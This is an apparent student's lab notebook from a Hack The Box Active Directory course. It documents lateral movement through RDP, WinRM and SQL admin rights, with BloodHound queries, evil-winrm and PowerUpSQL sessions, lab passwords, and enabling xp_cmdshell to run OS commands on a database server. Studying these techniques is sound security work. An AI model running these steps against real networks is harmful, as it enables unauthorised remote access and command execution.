 Privileged Access
######################

Date: 2025-01-04 14:58:22

Status: #new

Tags: :ref:`active directory enumeration attacks`

----


Privileges that allow lateral movement 
****************************************

1. CanRDP - has the right to remote desktop (https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
2. CanPSRemote can use WinRM (https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
3. SQLAdmin Can login to SQL servers and run OS commands in the context of the SQL server service account. (https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

172.16.5.225 /  htb-student:HTB_@cademy_stdnt! 


Finding users that are in the Remote Desktop Users Group
**********************************************************

.. code-block:: powershell

    PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

    ComputerName : ACADEMY-EA-MS01
    GroupName    : Remote Desktop Users
    MemberName   : INLANEFREIGHT\Domain Users
    SID          : S-1-5-21-3842939050-3880317879-2865463114-513
    IsGroup      : True
    IsDomain     : UNKNOWN


Finding users that can use :ref:`winrm`
******************************************

.. code-block:: powershell

    PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

    ComputerName : ACADEMY-EA-MS01
    GroupName    : Remote Management Users
    MemberName   : INLANEFREIGHT\forend
    SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
    IsGroup      : False
    IsDomain     : UNKNOWN

You can also search Bloodhound for this information 

Cypher search

.. code-block:: console

    MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2

Connecting to the WinRM service
**********************************

Establishing a :ref:`winrm` session from powershell
=====================================================

.. code-block:: powershell

    PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
    PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
    PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

    [ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
    ACADEMY-EA-MS01
    [ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
    PS C:\htb> 

Connecting using :ref:`evil-winrm`
====================================

.. code-block:: bash

    Temen@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend

    Enter Password: 

    Evil-WinRM shell v3.3

    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

    Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\forend.INLANEFREIGHT\Documents> hostname
    ACADEMY-EA-MS01


SQL Server Admin
********************

Often SQL admin accounts have sysadmin privileges, and you can often get these accounts with responder of password spaying.  Another useful tool 
is :ref:`snaffler` for finding SQL credentials in files. 

Using BloodHound to find SQL Admin rights 

.. code-block:: console

    MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2

Using :ref:`PowerUpSQL` to Enumerate MSSQL
============================================

.. code-block:: powershell

    PS C:\htb> cd .\PowerUpSQL\
    PS C:\htb>  Import-Module .\PowerUpSQL.ps1
    PS C:\htb>  Get-SQLInstanceDomain

    ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
    Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
    DomainAccountSid : 1500000521000170152142291832437223174127203170152400
    DomainAccount    : damundsen
    DomainAccountCn  : Dana Amundsen
    Service          : MSSQLSvc
    Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
    LastLogon        : 4/6/2022 11:59 AM

Using PowerShell to test MSSQL instance
=========================================

.. code-block:: powershell

    PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'

    VERBOSE: 172.16.5.150,1433 : Connection Success.

    Column1
    -------
    Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...

Connecting from Linux with :ref:`mssqlclient.py`
====================================================

.. code-block:: bash

    Temen@htb[/htb]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth

    Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

    Password:
    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
    [!] Press help for extra shell commands


Navigating SQL 
*********************

Once connected we can issue the `help` command to see what options are available to us. 

.. code-block:: console

    SQL> help

        lcd {path}                 - changes the current local directory to {path}
        exit                       - terminates the server process (and this session)
        enable_xp_cmdshell         - you know what it means
        disable_xp_cmdshell        - you know what it means
        xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
        sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
        ! {cmd}                    - executes a local shell cmd

Choosing enable_xp_cmdshell
==============================

.. code-block:: console

    SQL> enable_xp_cmdshell

    [*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
    [*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.


**now we have** the ability to run commands in the format `xp_cmdshell <command>` 

.. code-block:: console

    xp_cmdshell whoami /priv
    output                                                                             

    --------------------------------------------------------------------------------   

    NULL                                                                               

    PRIVILEGES INFORMATION                                                             

    ----------------------                                                             

    NULL                                                                               

    Privilege Name                Description                               State      

    ============================= ========================================= ========   

    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   

    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   

    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    

    SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    

    SeImpersonatePrivilege        Impersonate a client after authentication Enabled    

    SeCreateGlobalPrivilege       Create global objects                     Enabled    

    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


